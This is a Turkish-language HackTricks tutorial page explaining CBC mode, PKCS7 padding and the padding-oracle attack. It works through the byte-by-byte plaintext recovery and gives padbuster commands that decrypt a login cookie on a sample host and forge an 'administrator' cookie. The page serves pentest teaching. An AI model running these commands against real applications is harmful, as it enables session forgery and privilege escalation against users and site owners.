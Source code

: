 {% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


# CBC - Şifre Blok Zincirleme

CBC modunda **önceki şifreli blok, bir sonraki blok ile XOR'lamak için IV olarak kullanılır**:

![https://defuse.ca/images/cbc\_encryption.png](https://defuse.ca/images/cbc\_encryption.png)

CBC'yi deşifre etmek için **ters** **işlemler** yapılır:

![https://defuse.ca/images/cbc\_decryption.png](https://defuse.ca/images/cbc\_decryption.png)

**Şifreleme** **anahtarı** ve bir **IV** kullanmanın gerekli olduğunu unutmayın.

# Mesaj Doldurma

Şifreleme **sabit** **boyut** **bloklarında** gerçekleştirildiğinden, **son** **blokta** uzunluğunu tamamlamak için genellikle **doldurma** gereklidir.\
Genellikle **PKCS7** kullanılır, bu da bloğu tamamlamak için **gerekli** **bayt** **sayısını** **tekrarlayarak** bir doldurma oluşturur. Örneğin, son blokta 3 bayt eksikse, doldurma `\x03\x03\x03` olacaktır.

**8 bayt uzunluğunda 2 blok** ile daha fazla örneğe bakalım:

| byte #0 | byte #1 | byte #2 | byte #3 | byte #4 | byte #5 | byte #6 | byte #7 | byte #0  | byte #1  | byte #2  | byte #3  | byte #4  | byte #5  | byte #6  | byte #7  |
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- | -------- | -------- | -------- | -------- | -------- | -------- | -------- | -------- |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | 4        | 5        | 6        | **0x02** | **0x02** |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | 4        | 5        | **0x03** | **0x03** | **0x03** |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | **0x05** | **0x05** | **0x05** | **0x05** | **0x05** |
| P       | A       | S       | S       | W       | O       | R       | D       | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** |

Son örnekte **son bloğun dolu olduğunu ve yalnızca doldurma ile başka bir bloğun oluşturulduğunu** unutmayın.

# Doldurma Oracle'ı

Bir uygulama şifreli verileri deşifre ettiğinde, önce verileri deşifre eder; ardından doldurmayı kaldırır. Doldurmanın temizlenmesi sırasında, eğer **geçersiz bir doldurma tespit edilebilir bir davranış tetiklerse**, bir **doldurma oracle zafiyeti** vardır. Tespit edilebilir davranış bir **hata**, **sonuç eksikliği** veya **daha yavaş bir yanıt** olabilir.

Bu davranışı tespit ederseniz, **şifreli verileri deşifre edebilir** ve hatta **herhangi bir açık metni şifreleyebilirsiniz**.

## Nasıl istismar edilir

Bu tür bir zafiyeti istismar etmek için [https://github.com/AonCyberLabs/PadBuster](https://github.com/AonCyberLabs/PadBuster) kullanabilir veya sadece yapabilirsiniz.
```
sudo apt-get install padbuster
```
Bir sitenin çerezinin zayıf olup olmadığını test etmek için şunları deneyebilirsiniz:
```bash
perl ./padBuster.pl http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="
```
**Encoding 0** demek **base64** kullanıldığı anlamına gelir (ancak diğerleri de mevcuttur, yardım menüsüne bakın).

Bu zafiyeti yeni verileri şifrelemek için de **istismar edebilirsiniz**. Örneğin, çerezin içeriği "**_**user=MyUsername**_**" ise, bunu "\_user=administrator\_" olarak değiştirebilir ve uygulama içinde yetkileri artırabilirsiniz. Bunu `paduster` kullanarak -plaintext** parametresini belirterek de yapabilirsiniz:
```bash
perl ./padBuster.pl http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```
Eğer site savunmasızsa, `padbuster` otomatik olarak padding hatasının ne zaman meydana geldiğini bulmaya çalışacaktır, ancak hata mesajını **-error** parametresi ile de belirtebilirsiniz.
```bash
perl ./padBuster.pl http://10.10.10.10/index.php "" 8 -encoding 0 -cookies "hcon=RVJDQrwUdTRWJUVUeBKkEA==" -error "Invalid padding"
```
## Teori

**Özetle**, tüm **farklı padding'leri** oluşturmak için kullanılabilecek doğru değerleri tahmin ederek şifreli verileri çözmeye başlayabilirsiniz. Ardından, padding oracle saldırısı, 1, 2, 3, vb. **padding'leri oluşturan** doğru değerin ne olacağını tahmin ederek son byte'dan başlayarak byte'ları çözmeye başlayacaktır.

![](<../.gitbook/assets/image (629) (1) (1).png>)

**E0'dan E15'e** kadar olan byte'ları içeren **2 blok** kaplayan bazı şifreli metinleriniz olduğunu hayal edin.\
**Son** **blok**u (**E8**'den **E15**'e) **çözmek** için, tüm blok "blok şifre çözme" işleminden geçerek **aracı byte'lar I0'dan I15'e** kadar oluşturur.\
Son olarak, her aracı byte, önceki şifreli byte'larla (E0'dan E7'ye) **XOR'lanır**. Yani:

* `C15 = D(E15) ^ E7 = I15 ^ E7`
* `C14 = I14 ^ E6`
* `C13 = I13 ^ E5`
* `C12 = I12 ^ E4`
* ...

Artık **C15'in `0x01`** olana kadar **`E7`'yi değiştirmek** mümkündür, bu da doğru bir padding olacaktır. Bu durumda: `\x01 = I15 ^ E'7`

E'7'yi bulduğunuzda, **I15'i hesaplamak** mümkündür: `I15 = 0x01 ^ E'7`

Bu da **C15'i hesaplamamıza** olanak tanır: `C15 = E7 ^ I15 = E7 ^ \x01 ^ E'7`

**C15**'i bildiğinizde, şimdi **C14'ü hesaplamak** mümkündür, ancak bu sefer padding'i `\x02\x02` ile brute-force yaparak.

Bu BF, `E''15` değerinin 0x02 olduğu hesaplanabildiği için önceki kadar karmaşıktır: `E''7 = \x02 ^ I15`, bu nedenle sadece **`E'14`**'ü bulmak gerekir ki bu da **`C14`'ün `0x02`**'ye eşit olmasını sağlar.\
Ardından, C14'ü çözmek için aynı adımları izleyin: **`C14 = E6 ^ I14 = E6 ^ \x02 ^ E''6`**

**Tüm şifreli metni çözene kadar bu zinciri takip edin.**

## Açığın Tespiti

Bir hesap kaydedin ve bu hesapla giriş yapın.\
Eğer **birçok kez giriş yaparsanız** ve her seferinde **aynı çerezi** alıyorsanız, uygulamada muhtemelen **bir sorun** vardır. **Geri gönderilen çerez her seferinde benzersiz olmalıdır.** Eğer çerez **her zaman** **aynıysa**, muhtemelen her zaman geçerli olacaktır ve onu geçersiz kılmanın bir yolu **olmayacaktır.**

Artık çerezi **değiştirmeyi** denerken, uygulamadan bir **hata** aldığınızı görebilirsiniz.\
Ama padding'i BF yaparsanız (örneğin padbuster kullanarak) farklı bir kullanıcı için geçerli başka bir çerez elde etmeyi başarırsınız. Bu senaryo, padbuster'a karşı yüksek ihtimalle savunmasızdır.

## Referanslar

* [https://en.wikipedia.org/wiki/Block\_cipher\_mode\_of\_operation](https://en.wikipedia.org/wiki/Block\_cipher\_mode\_of\_operation)


<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
